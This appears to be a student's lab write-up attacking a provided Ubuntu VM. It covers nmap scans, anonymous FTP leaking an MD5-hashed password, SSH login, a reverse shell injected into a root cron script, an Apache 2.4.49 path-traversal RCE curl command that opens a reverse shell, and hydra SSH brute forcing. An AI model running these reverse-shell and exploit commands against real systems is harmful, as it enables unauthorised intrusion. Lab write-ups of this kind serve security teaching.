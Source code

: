 # Troubleshooting
As we tried connecting to the `.ova` we were provided, we would not be able to locate the machine, despite attempting to scan every single host of our network interface using nmap
```sh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 192.168.1.0/24
```
Even by trying to locate the machine itself by checking our ARP table, as its directly connected to us:
```sh
┌──(kali㉿kali)-[~]
└─$ arp -a
```
Which is very odd, as the machine should have obtained an ip address from the DHCP service...

However, after a while, we figured out that the machine *does* in fact have an ip assigned to it: by booting the machine in recovery mode and enabling the `root` console selecting the root console, we in fact found out that in `/etc/netplan` there is a static ip address *without* DHCP, which goes against the requirements of the assignment.
![](images/netplan_trouble.png)
Once `root`, we have removed every file under `/etc/netplan` and then we've created a new file `/etc/rc.local` file with following content
```sh
#!/bin/bash
dhclient
exit 0
```
then `chmod 755 /etc/rc.local` and then, enable and restart the service (may take a while), finally execute:
```sh
systemctl enable rc-local
systemctl restart rc-local
```
We did **not** tamper with the machine in any other way while in recovery mode, we just needed to perform the above to actually begin with the assignment.

# Information Gathering
We've started from a very quick and clean `nmap`, which revealed the following output:

```sh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 192.168.56.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-03 03:40 EDT
Nmap scan report for 192.168.56.2
Host is up (0.00087s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           216 Apr 30 12:08 site-credentials.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:dc:bf:b0:43:be:b5:ed:c4:1f:b8:0b:93:01:3a:4a (RSA)
|   256 2d:12:5e:5d:a5:11:18:ec:16:07:b6:ce:ae:7f:14:03 (ECDSA)
|_  256 b8:76:62:9f:68:28:a8:30:d0:87:13:fd:d1:10:aa:df (ED25519)
MAC Address: 08:00:27:61:9A:82 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
```
As we can see there is not much available:
- an FTP with anonymous login enabled 
- an SSH service  

## FTP
Since nMap shows us an anonymous login allowed on machine, try to explore..
```sh
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.2
    anonymous
    <blank_password>
```
![](images/ftp_login.png)
`site-credentials.txt` reports something like
```txt
In case you forget the credentials to upload the files on the website,the IT department provided me with a file containing the password.
They mentioned a certain MD5 code.

ftp-user 37b4e2d82900d5e94b8da524fbeb33c0
```
seems we have a password hashed with MD5, but.. MD5 is unsafe since 2008 then maybe a rainbow-table attack can "decode" it.

```sh
md5:37b4e2d82900d5e94b8da524fbeb33c0 -> football
```
then.. could be this a user of the system? try it.
```sh
┌─(kali㉿kali)-[~]
└─$ ssh ftp-user@192.168.56.2
    football
ftp-user@ubuntulab:~$
```
**An unpriviledged shell was obtained 🏴‍☠️**

## Mounted disks
```sh
ftp-user@ubuntulab:~$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 49.9M  1 loop /snap/snapd/18357
loop1    7:1    0 91.9M  1 loop /snap/lxd/24061
loop2    7:2    0 38.8M  1 loop /snap/snapd/21465
loop3    7:3    0 63.3M  1 loop /snap/core20/1828
sda      8:0    0  5.2G  0 disk
├─sda1   8:1    0    1M  0 part
├─sda2   8:2    0  500M  0 part /boot
├─sda3   8:3    0  510M  0 part [SWAP]
└─sda4   8:4    0  4.2G  0 part /
sr0     11:0    1 1024M  0 rom
```
## /etc/passwd
```sh
...
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:114:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftp-user:x:1001:1001:,,,:/usr/local/apache24/cgi-bin/:/bin/bash
```

# Play with users
## ftp-user
### Information gathering
Try to understand what are last operation of ftp-user by reading his **.bash_history** file
```sh
ftp-user@ubuntulab:~$ cat .bash_history
ls
cd ..
ls
cd ..
sl
lsv
exit
systemctl start apache2
systemctl status apache2.service
journalctl -xe
sudo journalctl -xe
exit
ls
exit
cat /etc/crontab
nano ../scripts/health_check.sh
vi ../scripts/health_check.sh
less ../scripts/health_check.sh
```
in his `/home` there are some files, maybe useful for priviledge escalation
```sh
ftp-user@ubuntulab:/usr/local/apache24/cgi-bin$ ls
printenv  printenv.vbs	printenv.wsf  test-cgi
```

# Privilege escalation
## Cronjob health-check.sh
The crontab was set to execute the health-check.sh every minute (`*/1 * * * *`)
 as root. Since health-check.sh was writable by the `ftp-user` we were able to inject a reverse shell into it:
 ```sh
 sh -i >& /dev/tcp/<attacker_machine>/<attacker_port> 0>&1
``` 

 # Foothold
 ## via Apache
With that version of Apache (2.4.49) misconfigured, we are able to produce a remote code execution via Path Traversal.
 ```sh
 curl -s -X POST -d "echo; bash -i >& /dev/tcp/192.168.56.3/9321 0>&1" http://192.168.56.4:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash
 ```
 ## via SSH 
Since SSH is enabled, we could try to enumerate SSH users and guess their passwords.
To find username `ubuntu` we have used `-L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` and for password the command below
 ```sh
 ┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l ubuntu -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt 192.168.56.4 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-09 12:49:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking ssh://192.168.56.4:22/
[22][ssh] host: 192.168.56.4   login: ubuntu   password: admin@123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-09 12:50:20
```
```sh
[22][ssh] host: 192.168.56.4   login: ubuntu   password: admin@123
```

